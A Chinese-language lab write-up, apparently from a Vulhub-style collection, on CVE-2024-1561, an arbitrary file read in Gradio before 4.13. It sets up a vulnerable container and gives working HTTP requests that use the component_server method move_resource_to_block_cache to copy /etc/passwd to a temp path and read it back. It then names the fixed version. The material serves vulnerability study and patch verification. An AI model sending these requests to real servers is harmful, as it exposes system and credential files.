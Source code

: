 # Python Gradio 任意文件读取漏洞 CVE-2024-1561

## 漏洞描述

Gradio 是一个 Python 库，允许用户无需编写前端代码即可为机器学习模型快速构建 Web 界面。

在 Gradio 4.13 版本之前，`component_server` 接口允许攻击者调用 `Component` 类的任意方法。攻击者可以利用 `move_resource_to_block_cache` 方法，将服务器上的任意文件复制到临时目录，并进一步读取其内容，从而实现任意文件读取。

参考链接：

- [gradio-app/gradio#6884](https://github.com/gradio-app/gradio/pull/6884)
- https://nvd.nist.gov/vuln/detail/CVE-2024-1561
- https://github.com/advisories/GHSA-g9cj-cfpp-4g2x
- https://huntr.com/bounties/4acf584e-2fe8-490e-878d-2d9bf2698338

## 漏洞影响

```
Gradio < 4.13.0
```

## 环境搭建

Vulhub 执行如下命令启动一个由 Gradio 4.12.0 编写的应用：

```
docker compose up -d
```

环境启动后，默认未开启身份验证。你可以通过 `http://your-ip:7860` 访问该应用。

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250526162213787.png)

## 漏洞复现

首先，访问 `/config` 接口，获取一个组件的 `id` 字段，例如 `3`。

```
GET /config HTTP/1.1
Host: your-ip:7860
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111428271.png)

然后，利用 `move_resource_to_block_cache` 方法，将 `/etc/passwd` 文件写入临时目录，接口会返回临时文件路径。

```
POST /component_server HTTP/1.1
Host: your-ip:7860
Content-Type: application/json

{
  "component_id": "3",
  "data": "/etc/passwd",
  "fn_name": "move_resource_to_block_cache",
  "session_hash": "aaaaaaaaaaa"
}
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111530385.png)

最后，通过 `file` 接口拼接返回的路径，即可读取文件内容。

```
GET /file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd HTTP/1.1
Host: your-ip:7860
```

![](images/Python%20Gradio%20任意文件读取漏洞%20CVE-2024-1561/image-20250506111615240.png)

如果操作成功，即可看到 `/etc/passwd` 的内容，证明漏洞存在。

## 漏洞修复

该漏洞在 `gradio==4.13.0` 中被修复。
